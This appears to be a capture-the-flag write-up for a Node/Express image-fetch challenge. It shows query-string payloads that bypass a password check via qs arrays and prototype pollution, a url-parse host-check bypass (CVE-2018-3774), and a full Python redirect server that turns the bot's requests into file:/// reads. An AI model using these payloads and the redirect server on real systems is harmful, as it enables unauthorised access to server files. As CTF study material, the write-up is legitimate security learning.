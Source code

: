## Skills required: NodeJS/Express backend framework, URL parsing confusion, being resourceful

At first I misread the two demo flags as 2 *parts* of 1 flag as opposed to 2 flags (for the 2 challenges) and delayed solving it.
The decision to switch to this challenge proved to be right by the number of solves (and my eventual solve half an hour before the end).

## Solution:

For the first step, I always **look at the dependencies, whose vulnerabilities may give realistic attack surfaces**.
I used `npm audit` as the primary way, but I also looked at Snyk.

<details>
  <summary> Show formatted and simplified npm audit output </summary>
<pre>
Moderate        Incorrect hostname / protocol due to unstripped leading control characters.
  Package         url-parse
  More info       https://github.com/advisories/GHSA-jf5r-8hm2-f872
Critical        Authorization Bypass Through User-Controlled Key in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-hgjh-723h-mx2j
Moderate        Authorization bypass in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-rqff-837h-mm52
Moderate        Open redirect in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-hh27-ffr2-f2jc
Moderate        Incorrect returned href via an '@' sign but no user info and hostname
  Package         url-parse
  More info       https://github.com/advisories/GHSA-8v38-pw62-9cw2
Moderate
  Package         url-parse
  More info       https://github.com/advisories/GHSA-9m6j-fcg5-2442
Moderate        Improper Validation and Sanitization in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-46c4-8wrp-j99v
High            Open Redirect in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-pv4c-p2j5-38j4

# Run  npm install express@4.18.2  to resolve 2 vulnerabilities
High            qs vulnerable to Prototype Pollution
  Package         qs
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp
High            qs vulnerable to Prototype Pollution
  Package         qs
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp

# Run  npm update ejs --depth 1  to resolve 1 vulnerability
Critical        ejs template injection vulnerability
  Package         ejs
  More info       https://github.com/advisories/GHSA-phwq-j96m-2c2q

# Run  npm update minimatch --depth 4  to resolve 2 vulnerabilities
High            minimatch ReDoS vulnerability
  Package         minimatch
  More info       https://github.com/advisories/GHSA-f8q6-p94x-37v3
High            minimatch ReDoS vulnerability
  Package         minimatch
  More info       https://github.com/advisories/GHSA-f8q6-p94x-37v3

# Run  npm update express --depth 1  to resolve 1 vulnerability
High            qs vulnerable to Prototype Pollution
  Package         express
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp
</pre>
</details>

Using `npm audit` is a little bit better than snyk, as it captured a prototype pollution vulnerability in `qs`,
which in [snyk](https://security.snyk.io/package/npm/express/4.17.1) would require signing in to show:

![image](https://user-images.githubusercontent.com/114584910/210392189-83d741cc-06fa-476b-bef9-064d501c19bb.png)

While this may not reveal vulnerabilities by misconfiguration, now I had a rough picture of what to look for when I **look at the code** and try the app now:

### Weird permission check
```js
if (req.query.password.length > 12 || req.query.password != "Th!sIsS3xreT0") {
    return res.send(`You don't have permission\n${req.query.password.length}\n${req.query.password}`)
}
```
- Th!sIsS3xreT0 is 13-character long while its length has to be at most 12
- One key is that loose inequality `!=` is used instead of strict inequality `!==`, we can try using variables of different types.
- This can be solved in 2 ways:
  1. We can use the [prototype pollution vuln](https://github.com/advisories/GHSA-hrpp-h998-j3pp) discovered: `?password[__proto__]=Th!sIsS3xreT0&password[__proto__]&password[length]=1`
  1. As the `extended` flag of `bodyParser.urlencoded` is true (juicy express stuff), I can simply supply `?password[]=Th!sIsS3xreT0`, which makes password an array of length 1, containing the string

### Protocol and host checking
```js
const IsValidProtocol = (s, protocols = ['http', 'https']) => {
    try {
        new URL(s); ``
        const parsed = parse(s);
        return protocols
            ? parsed.protocol
                ? protocols.map(x => x.toLowerCase() + ":").includes(parsed.protocol)
                : false
            : true;
    } catch (err) {
        return false;
    }
};
const isValidHost = (url => {
    const parse = new urlParse(url)
    // console.log(parse)
    return parse.host === "i.ibb.co" ? true : false
})
app.post('/api/getImage', isAdmin, validate, async (req, res, next) => {
    try {
        const url = req.body.url.toString()
        let result = {}
        if (IsValidProtocol(url)) {
            const flag = isValidHost(url)
            if (flag) {
                console.log("[DEBUG]: " + url)
                let res = await downloadImage(url)
                result = res
            } else {
                result.status = false
                result.data = "Invalid host i.ibb.co"
            }

        } else {
            result.status = false
            result.data = "Invalid url"
        }
        res.json(result)
    } catch (error) {
        res.status(500).send(error.stack)
    }
})
```
- Requests to `/api/getImage` will pass through 2 middlewares: `isAdmin` and `validate`. If the checks fail, the requests are blocked. `validate` is not interesting at least for this challenge.
- `IsValidProtocol` checks a few things:
  - The URL is valid according to NodeJS's `url` module (otherwise an error is thrown)
  - The parsed protocol is either `http` or `https`.
    - While it might be possible to inject some property to the protocols array, say `protocols[2]="file",` .map will refuse to handle that due to the length being `2`, which cannot be changed by pollution
  - This part alone is not very interesting.
- `isValidHost` uses the vulnerable `url-parse` to check the host.
  - For some background information, **[URL parsing is extremely difficult](https://www.slideshare.net/codeblue_jp/a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages-by-orange-tsai)** (by Orange Tsai)
  - The URL is checked with `url-parse` (javascript), but it's finally used in `bot.py` (python) so interesting things can happen
  - Enumerating the vulns (snyk does present them in a nicer format):
    - ~~CVE-2022-0639~~ invalid new URL()
    - ~~CVE-2022-0686~~ parsed host must contain :
    - ~~CVE-2022-0691~~ invalid URL
    - ~~CVE-2022-0512~~ parsed host must contain @
    - ~~CVE-2021-3664~~ parsed host is empty
    - ~~CVE-2021-27515~~ parsed host is empty
    - ~~CVE-2020-8124~~ *this is why the service maker implemented the WAF but finally gave up and used Python (I love the little story)*
    - **CVE-2018-3774** `https://<mydomain>\\@i.ibb.co` *(I missed this initially and only saw %5c, which produces invalid URL, kudos for admin's reassurance)*
    - *Post solve reflection: I should have given up rewriting the protofol earlier from the vulnerabilities alone, there is also another good clue in the next part*

### Python file retrieval logic
```py
url = sys.argv[1]
headers = {'user-agent': 'PythonBot/0.0.1'}
request = requests.session()
request.mount('file://', LocalFileAdapter())

# check extentsion
white_list_ext = ('.jpg', '.png', '.jpeg', '.gif')
vaild_extension = url.endswith(white_list_ext)
if (vaild_extension):
    # check content-type
    res = request.head(url, headers=headers, timeout=3)
    if ('image' in res.headers.get("Content-type")
            or 'image' in res.headers.get("content-type")
            or 'image' in res.headers.get("Content-Type")):
        r = request.get(url, headers=headers, timeout=3)
        print(base64.b64encode(r.content))
    else:
        print(0)
else:
    print(0)
```
- The unparsed url must end with some image formats. *This check is useless ~~because I can put whatever I like in the #hash~~*
- The **content-type** part is the most interesting, because it hinted that a direct use of `file` protocol in the `url` variable passed from `index.js` would be meaningless, as our flag is plain text.
  - **I need to build my own server and redirect the HTTP request to a FILE request, turning RFI into LFI**
  - Having played CyberSecurityRumble2022, I know that I can create [SimpleHTTPServers](https://docs.python.org/3/library/http.server.html#http.server.SimpleHTTPRequestHandler) that can handle HEAD, GET or even SPAM requests with ease.
  - *This check is useless **because I own the server** - I can redirect to wherever I like.*

Then I quickly spun up a server:
- Note how GET and HEAD are the same, this is okay because [HEAD requests don’t follow redirects anymore.](https://requests.readthedocs.io/en/latest/community/updates/?highlight=HEAD#id101)
- 172.17.0.1 is the default docker0 gateway
- This code allows for arbitrary file read.

<details>
  <summary>Show my local exploit code</summary>

```py
#!/usr/bin/python3
from threading import Thread
from sys import argv
from sys import getsizeof
from time import sleep
from socketserver import ThreadingMixIn
from http.server import SimpleHTTPRequestHandler
from http.server import HTTPServer
from re import search
from os.path import exists
from os.path import isdir

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

class CyberServer(SimpleHTTPRequestHandler):
    def version_string(self):
        return f'Linux/cyber'

    def do_HEAD(self):
        path = self.path[1:] or ''
        for ext in ('.jpg', '.png', '.jpeg', '.gif'):
            if path[-len(ext):] == ext:
                path = path[:-len(ext)]
            url = "file:///"+path.replace('/%5C@i.ibb.co', '')
        self.send_response(302, 'Found')
        self.send_header('Location', url)
        self.send_header('Content-type', 'image/jpeg')
        self.end_headers()

    def do_GET(self):
        self.do_HEAD()


class CyberServerThread(Thread):
    server = None

    def __init__(self, host, port):
        Thread.__init__(self)
        self.server = ThreadingSimpleServer((host, port), CyberServer)

    def run(self):
        self.server.serve_forever()
        return


def main(host, port):
    cyberProtector = CyberServerThread(host, port)
    cyberProtector.server.shutdown
    cyberProtector.daemon = True
    cyberProtector.start()
    while True:
        sleep(1)

if __name__ == "__main__":
    host = "0.0.0.0"
    port = 1337
    if len(argv) >= 2:
        host = argv[1]
    if len(argv) >= 3:
        port = int(argv[3])
    main(host, port)
```
</details>

![yay](https://user-images.githubusercontent.com/114584910/210415637-41b06a19-fd1d-43a5-89e9-75a873a66661.png)

### Hosting the thing

I have had pretty good experience with https://webhook.site but the `\@i.ibb.co` URL part won't pass.
Fortunately a similar site https://beeceptor.com offers a similar service, but a subdomain is used as opposed to a subfolder. It also supports conditional rules based on method and path. A final payload of `url=https://alrighty.free.beeceptor.com:443\@i.ibb.co/pwn.jpg` should work.

![bee](https://user-images.githubusercontent.com/114584910/210415568-c963d440-b6cb-41e0-a366-1babd69febfb.png)
